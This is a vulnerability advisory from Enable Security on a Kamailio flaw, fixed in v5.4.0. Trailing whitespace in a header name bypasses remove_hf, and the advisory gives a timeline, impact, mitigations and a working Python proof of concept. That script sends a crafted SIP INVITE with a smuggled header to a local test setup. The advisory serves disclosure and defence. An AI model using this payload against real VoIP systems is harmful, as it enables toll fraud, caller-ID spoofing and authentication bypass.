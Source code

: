 # Kamailio vulnerable to header smuggling possible due to bypass of remove_hf

- Fixed versions: Kamailio v5.4.0
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf>
- Tested vulnerable versions: 5.3.5 and earlier
- Timeline:
    - Report date & issue patched by Kamailio:  2020-07-16
    - Kamailio rewrite for header parser (better fix): 2020-07-16 to 2020-07-23
    - Kamailio release with fix: 2020-07-29
    - Enable Security advisory: 2020-09-01

## Description

Kamailio is often configured to remove certain special internal SIP headers from untrusted traffic to protect against header injection attacks by making use of the `remove_hf` function from the Kamailio `textops` module. These SIP headers were typically set through Kamailio which are then used downstream, e.g. by a media service based on Asterisk, to affect internal business logic decisions. During our tests and research, we noticed that the removal of these headers can be bypassed by injecting whitespace characters at the end of the header name.

Note that this issue only affected header names that are __not__ defined in `src/core/parser/hf.h`.

Further discussion and details of this vulnerability can be found at the Communication Breakdown blog: https://www.rtcsec.com/2020/09/01-smuggling-sip-headers-ftw/.

## Impact

The impact of this security bypass greatly depends on how these headers are used and processed by the affected logic. In a worst case scenarios, this vulnerability could allow toll fraud, caller-ID spoofing and authentication bypass.

## How to reproduce the issue

We prepared a docker-compose environment to demonstrate a vulnerable setup which can be found at <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf/repro>. The following python code could then be used to reproduce the issue:

```python
#!/usr/bin/env python3
sipmsg  = "INVITE sip:headerbypass@localhost SIP/2.0\r\n"
sipmsg += "Via: SIP/2.0/UDP 127.0.0.1:48017;rport;branch=z9hG4bK-%s\r\n"
sipmsg += "Max-Forwards: 70\r\n"
sipmsg += "From: <sip:anon@localhost>;tag=%s\r\n"
sipmsg += "To: sip:whatever@whatever.local\r\n"
sipmsg += "Call-ID: %s\r\n"
sipmsg += "CSeq: 1 INVITE\r\n"
sipmsg += "Contact: <sip:1000@127.0.0.1:48017;transport=udp>\r\n"
sipmsg += "X-Bypass-me : lol\r\n"
sipmsg += "Content-Length: 237\r\n"
sipmsg += "Content-Type: application/sdp\r\n"
sipmsg += "\r\n"
sipmsg += "v=0\r\n"
sipmsg += "o=- 1594727878 1594727878 IN IP4 127.0.0.1\r\n"
sipmsg += "s=-\r\n"
sipmsg += "c=IN IP4 127.0.0.1\r\n"
sipmsg += "t=0 0\r\n"
sipmsg += "m=audio 58657 RTP/AVP 0 8 96 101\r\n"
sipmsg += "a=rtpmap:101 telephone-event/8000/1\r\n"
sipmsg += "a=rtpmap:0 PCMU/8000/1\r\n"
sipmsg += "a=rtpmap:8 PCMA/8000/1\r\n"
sipmsg += "a=rtpmap:96 opus/8000/2\r\n"
sipmsg += "a=sendrecv\r\n"

target = ("127.0.0.1",5060)

import socket
import time
from random import randint
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
s.bind(("0.0.0.0",5088))
r = randint(1000,9999)
data = sipmsg % (r,r,r)
s.sendto(data.encode("utf-8"), target)
while True:
    data,addr=s.recvfrom(4096)
    print(data.decode("utf-8"))
    time.sleep(5)
```

In the case of a vulnerable version of Kamailio, Asterisk would respond with a 200 OK while in a fix version, you would get a 603 Decline response.

## Solutions and recommendations

The official Kamailio fix has been tested and found to sufficiently address this security flaw. We recommend making use of the latest release or backporting the fixes where possible. Making use of regular expressions to cover white-space characters with `remove_hf_re` has been suggested as mitigation for this issue for cases where the code cannot be upgraded.

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within minutes of our report being made available to him, as well as Torrey Searle for reporting this issue quickly to the Kamailio team.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

